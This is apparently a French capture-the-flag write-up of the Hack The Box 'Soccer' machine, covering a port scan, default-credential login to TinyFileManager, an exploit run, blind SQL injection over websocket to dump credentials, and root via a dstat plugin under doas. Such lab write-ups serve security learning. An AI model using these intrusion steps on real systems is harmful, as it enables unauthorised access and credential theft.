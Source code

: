 # Soccer - easy

```yaml
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-28 18:09 EST                                                                               
Nmap scan report for 10.10.11.194                                                                                                             
Host is up (0.057s latency).                                                                                                                  
Not shown: 997 closed tcp ports (conn-refused)                                                                                                
PORT     STATE SERVICE         VERSION                                                                                                        
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                   
| ssh-hostkey:                                                                                                                                
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)                                                                                
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)                                                                               
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)                                                                             
80/tcp   open  http            nginx 1.18.0 (Ubuntu)                                                                                          
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                   
|_http-title: Did not follow redirect to http://soccer.htb/                                                                                   
9091/tcp open  xmltec-xmlmail?
```

découverte de [http://soccer.htb/tiny/](http://soccer.htb/tiny/) grâce à un gobuster

Le site utilise donc TinyFileManager "2.4.3”, on trouve un exploit sauf qu’il est authenticated, il faut donc trouver un moyen de se log

[https://github.com/febinrev/tinyfilemanager-2.4.3-exploit](https://github.com/febinrev/tinyfilemanager-2.4.3-exploit)

Les credentials par défaut sont utilisés : [https://github.com/prasathmani/tinyfilemanager](https://github.com/prasathmani/tinyfilemanager)

On essaye alors d’upload un reverse shell php, cela ne marche pas à cause du manque de droit pour écrire dans le dossier du site, on se replie sur l’exploit

```yaml
./exploit.sh http://soccer.htb/tiny/ admin admin@123         │
/usr/bin/curl                                                          │
[✔] Curl found!                                                        │
/usr/bin/jq                                                            │
[✔] jq found!                                                          │
                                                                       │
[+]  Login Success! Cookie: filemanager=tuluulf5ijftelqskcd23en320     │
                                                                       │
[*] Try to Leak Web root directory path                                │
                                                                       │
[+] Found WEBROOT directory for tinyfilemanager using full path disclos│
ure bug : /var/www/html/tiny/                                          │
                                                                       │
[-] File Upload Unsuccessful! Exiting!
```

Possibilité d’upload dans le dossier uploads

succés !

Un sous domaine se cache dans /etc/hosts

après avoir créé un compte bidon on peut consulter la page

[http://soc-player.soccer.htb/check](http://soc-player.soccer.htb/check) avec un système de ticket dessus, peut être qu’il utile SQL ??

Analyse avec burp suite: système d’id avec [http://soc-player.soccer.htb/check?id=1](http://soc-player.soccer.htb/check?id=1)

Utilisation de websocket dans le code de la fonction check dans le code source de la page:

[https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

On utilise SQLMap pour dump la table avec les creds de soccer et on entre en ssh, on obtient le flag user.

```php
find / -perm -4000 2>/dev/null
```

→ on trouve un executable bizarre en SUID: doas

Dans le fichier de conf de doas 

```php
permit nopass player as root cmd /usr/bin/dstat
```

Après recherche il se trouve que l’on peut des plugins dans le répertoire dstat local

On crée un plugin python qui lance simplement un bash

Il suffit ensuite d’executer tout ça en tant que root

```php
doas -u root /usr/bin/dstat --privesc
```

On obtient le flag root !